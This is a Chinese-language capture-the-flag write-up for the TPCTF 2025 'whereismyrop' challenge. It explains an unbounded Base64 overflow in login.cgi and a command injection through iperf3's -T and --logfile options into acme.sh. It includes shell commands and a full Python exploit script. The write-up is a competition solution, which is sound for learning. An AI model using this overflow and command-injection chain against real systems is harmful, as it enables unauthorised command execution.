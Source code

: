 ```yaml
---
title: 2025-tpctf
date: 2025-3-10
categories: 2025-tpctf
---
```


# 前言
这次比赛感觉还行, 和火箭一起三题出了两题, 另一题相对简单, 堆上的溢出, 主要是逆向难度较低, 所以做出的人很多
这题的门槛感觉就高了一些, 虽然漏洞点并不难理解, 但是估计交互方式卡住了一批人(我也搞了半天, 后来火箭发现login.js提供了交互模板, 配合上逆向就很容易看懂了)

# 题目运行逻辑
题目给了一个docker, 我看了眼start.sh, 启动了一个apache的服务, 然后就是启动basement程序了, 我还以为可以直接跟basement交互, 刚开始看了一会basement, 才发现他的socket是走的文件, 才看到cgi-bin中的login.cgi

所以真正的交互逻辑是向login.cgi发送请求, login.cgi解析后通过libCgi.so中的send_cmd函数向basement发送消息, 等待basement返回, 最后将返回值传回

并且basement中有十二个可以选择的函数, 但是login.cgi中只允许选择login, register, reset_password三个操作

# 漏洞点
漏洞出现在login.cgi中, 在decodeBase64函数中, 解析HTTP_AUTHORIZATION的时候没有限制长度, 所以会出现一个向bss段上的无限写入
选择basement中函数的变量刚好就在后面, 可以被覆盖, 所以通过这个漏洞就可以选择basement中的十二个的函数执行了
![decodeBase64](./tpctf-rop/decodeBase64.png)

还有一个关键就是HTTP_AUTHORIZATION解析得到的值会作为函数执行的参数, 就等于可以控制参数的执行basement的任意函数了

# 调试技巧
本题是在docker内运行, 所以必不可少的是gdbserver调试
主要需要调试的程序有login.cgi, basement两个.
其中basement还好说, 毕竟是长时间运行的, 只要在docker attach到basement进程即可

我刚开始没想到怎么调试login.cgi, 后来火箭提醒我可以设置一个prelogin.cgi, 其中内容写
```sh
#!/bin/bash
gdbserver :9999 /usr/cgi-bin/login.cgi
```
这样每次需要调试login.cgi时, 就访问prelogin.cgi, 然后在docker外部启动gdb, 使用命令target remote:9999即可

# 利用方式
不得不说太神奇了, Linux仙人火箭用basement的iperf3做到了向acme.sh文件中写入命令, 然后再用basement中执行acme.sh命令的函数触发, 就可以做到命令执行
示例:
```sh
iperf3 -s -p 7070 
iperf3 -c 127.0.0.1 -p 7070 -T "cat flag" --logfile /root/.acme.sh/acme.sh
```
在第一行命令启动服务端后, 第二行命令链接本地的服务端, -T是title str, 会将"cat flag"放在每一行输出的头部, --logfile是将输出写到文件里, 就可以向acme.sh写入任意内容
basement中的6和8分别可以控制带参数执行服务端和客户端的iperf3

然后在10, 11, 12中都可以执行acme.sh获取命令执行
最后还被出题人恶心了一把, 真正的flag名字为什么什么flaG什么什么
昨天尝试读flag时试了`*flag*`都不行, 直接给我和火箭看傻了

还好后来火箭又找到一个办法, 用了`find / -maxdepth 1 -fprint /var/www/html/ls.html`得到根目录下所有文件名字

最后再通过`cp *flaG* /var/www/html/flag.html`, 访问`ip:port/flag.html`即可

# exp
```python
import requests
from urllib.parse import quote
import base64
from bs4 import BeautifulSoup
from pwn import *

url_port = '127.0.0.1:7070'

def hack(arg1: str, arg2: str, cmd: int):
    auth_str = arg1.encode() + b':' + arg2.encode() + b':randstr:'
    auth_str = auth_str.ljust(0x200) + p8(cmd)
    b64_auth = base64.b64encode(auth_str).decode('utf-8')
    
    headers = {
        'Authorization': f'Basic {b64_auth}',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    login_url = f"http://{url_port}/cgi-bin/login.cgi?reset_password"
    data = f"id={str(id_value)}"
    
    response = requests.post(login_url, headers=headers, data=data)
    print(f"{response.headers}")
    

if __name__ == "__main__":
    id_value = str(111111111111111111111111)
    hack('127.0.0.1', '7070', 6)
    hack('127.0.0.1', '7070 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', 9)
    hack('127.0.0.1', '7070 -T "cp /*flaG* /var/www/html/flag.html # " --logfile /root/.acme.sh/acme.sh', 9)
    hack(' ', ' ', 11)

```

# 后记
这题叫whereismyrop, 导致我一直非常认真地检查basement中的读入有没有溢出, 结果居然溢出出现在login.cgi, 而且是以并不能rop的形式出现, 也是有些戏剧性了. 蹲一手wp, 不会真的能做到rop吧
